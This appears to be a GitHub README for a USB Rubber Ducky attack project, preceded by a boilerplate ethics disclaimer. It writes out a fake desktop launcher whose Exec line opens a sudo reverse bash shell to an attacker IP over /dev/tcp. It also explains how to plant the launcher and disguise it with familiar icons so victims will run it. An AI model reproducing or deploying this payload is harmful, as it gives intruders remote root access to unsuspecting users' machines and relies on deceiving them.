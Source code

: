 # Rubber-Ducky-Scripts
**Disclaimer:** Engaging in activities involving compromised scripts, unauthorized access, or any form of potentially harmful actions is strictly prohibited. The use of such scripts without explicit authorization is both unethical and illegal. It is crucial to adhere to ethical guidelines, respect the law, and prioritize the security and privacy of computer systems. The information provided here is intended for educational and informative purposes only. If you are in an academic or learning environment and wish to explore cybersecurity topics, it is essential to obtain explicit permission from relevant authorities and conduct experiments in a controlled, legal, and ethical manner. Always follow best practices, participate in legal and educational platforms, and ensure that your actions contribute positively to the field of cybersecurity. Unauthorized and unethical activities may result in severe consequences, including legal action and academic penalties. 
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop <br>
**[Desktop Entry] <br>
Encoding=UTF-8 <br>
Name=Open_Custom_File <br>
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1 <br>
Terminal=true <br>
Type=Application <br>
Icon=notebook** <br>
Change IP Address to attacker machine

Plug in the rubber ducky to run the script in **payload.dd** file. In the payload.dd file one can get creative and introduce a shorcut to the desktop for this fake application. The icon can be changed to common icons as users will easily run files/apps they can easily identify with.
